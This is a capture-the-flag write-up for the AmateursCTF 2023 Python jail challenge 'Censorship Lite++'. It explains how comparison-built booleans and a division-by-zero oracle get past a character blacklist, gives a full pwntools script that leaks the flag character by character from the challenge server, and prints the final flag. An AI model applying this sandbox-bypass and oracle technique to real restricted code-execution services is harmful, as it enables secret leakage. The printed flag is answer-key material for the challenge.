 # Misc - Censorship Lite++ (AmateursCTF 2023)

## Problem

We are faced with yet another Python jail problem:

```python
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if any([i in code for i in "lite0123456789 :< :( ): :{ }: :*\ ,-."]):
                print("invalid input")
                continue
            exec(eval(code))
        except Exception as err:
            print("zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz")
```

It is mentioned in problem statement that flag format is `amateursCTF{[a-zA-Z_]*}`

## Solution

The difficulty for this Python Jail is further increased, with `\lite0123456789` and `:<(){}*,-.` blocked. This effectively blocks most functions calls. One notable exception is `>` character. 

The main idea here is to compute `1/(_[flag_pos]>test_char)`. To generate numbers, recall that:
* `z = False + False = 0` and `o = False + True = 1`. We can construct `False` via `'b'>'b'` and `True` via `'b'>'a'`
* We also replace flag_pos with `(o+o+...+o)`


We can now compute and enumerate every flag character depending on whether `zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz` is printed (i.e. exception thrown), and stop when it first throws. However, for characters `lite` can be `mjuf` as we are not directly testing `lite` due to the filter. Some guesswork at the end helps us obtain the flag.

Solve script is as follows:

```python
import string
from pwn import *

r = remote('amt.rs', 31672)
print(r.recv(256))
# Needs correction for some "lite" to "mjuf" or vice versa
flag = 'amateursCTF{'
# e.g. 'elag' --> 'flag'
corrected_flag = 'amateursCTF{le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_level}'
print(len(flag))
flaglen = 97
# Re-run a few times due to timeout, store partial result in "flag"
censor = "lite0123456789 :< :( ): :{ }: :*\ ,-."
for j in range(len(flag), flaglen + 1):
    for c in string.ascii_uppercase + '_' + string.ascii_lowercase:
        if c in censor:
            continue
        baselogic="x='a'>'a';y='b'>'a';z=x+x;o=x+y;"
        # Attempt to trigger division by zero for confirmation (j > 0 since "amateursCTF{" is known)
        jstr = '+'.join(['o']*j)
        divzero_test = f"d=_[{jstr}]>'{c}';o/d;"
        payload = baselogic + divzero_test
        r.sendline(payload.encode('utf-8'))
        res = r.recv(256).decode('utf-8')
        if 'zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz' in res:
            # Special chars may have more options, but "lite" appearances make sense in most cases

            if chr(ord(c) - 1) in 'lite':
                print(f'Position {j} is either {c} or {chr(ord(c) - 1)}')
                flag += chr(ord(c) - 1)
            else:
                flag += c
            print('FLAG:', flag)
            break
```

## Flag

amateursCTF{le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_level}